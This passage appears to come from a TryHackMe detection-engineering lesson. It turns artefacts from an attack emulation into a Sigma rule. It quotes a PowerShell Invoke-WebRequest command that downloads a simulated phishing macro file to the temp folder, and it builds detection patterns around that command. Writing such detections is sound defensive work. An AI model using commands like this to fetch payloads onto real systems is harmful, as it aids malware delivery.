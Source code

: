 Two events contained possible indicators of compromise. Let's focus on the event that contained the `Invoke-WebRequest` command line:

`"powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm}"`

We can use multiple parts of this artefact to include in our custom Sigma rule.

* `Invoke-WebRequest`: It is not common for this command to run from a script behind the scenes.
* `$url = 'http://localhost/PhishingAttachment.xlsm'`: Attackers often use a specific malicious domain to host their payloads. Including the malicious URL in the Sigma rule could help us detect that specific URL.
* `PhishingAttachment.xlsm`: This is the malicious payload downloaded and saved on our system. We can include its name in the Sigma rule as well.

Combining all these pieces of information in a Sigma rule would look something like this:

PowerShell Invoke-WebRequest Sigma Rule

```javascript
title: Detect PowerShell Invoke-WebRequest and File Creation of PhishingAttachment.xlsm
  id: 1
  description: Detects the usage of Invoke-WebRequest to download PhishingAttachment.xlsm and the creation of the file PhishingAttachment.xlsm.
 status: experimental
  author: TryHackMe
  logsource:
    category: process_creation
    product: windows
    service: sysmon
  detection:
   selection_invoke_webrequest:
      EventID: 1
      CommandLine|contains:
        - 'Invoke-WebRequest'
        - 'http://localhost/PhishingAttachment.xlsm'
    
    selection_file_creation:
      EventID: 11  # Sysmon Event ID for File Creation
      TargetFilename|endswith: '\PhishingAttachment.xlsm'
      
    condition: selection_invoke_webrequest or selection_file_creation
  falsepositives:
    - Legitimate administration activity may use Invoke-WebRequest, and legitimate Excel files may be created with similar names.
  level: high
  tags:
    - attack.t1071.001   # Web Service - Application Layer Protocol
    - attack.t1059.001   # PowerShell
    - attack.t1105       # Ingress Tool Transfer
    - attack.t1566.001   # Spearphishing Attachment
        
```

The `detection` part is where the effective detection is happening. We can see clearly the artefacts that we discovered during the emulation test. We can then import this rule into the main tools we use for alerts, such as the EDR, SIEM, XDR, and many more.
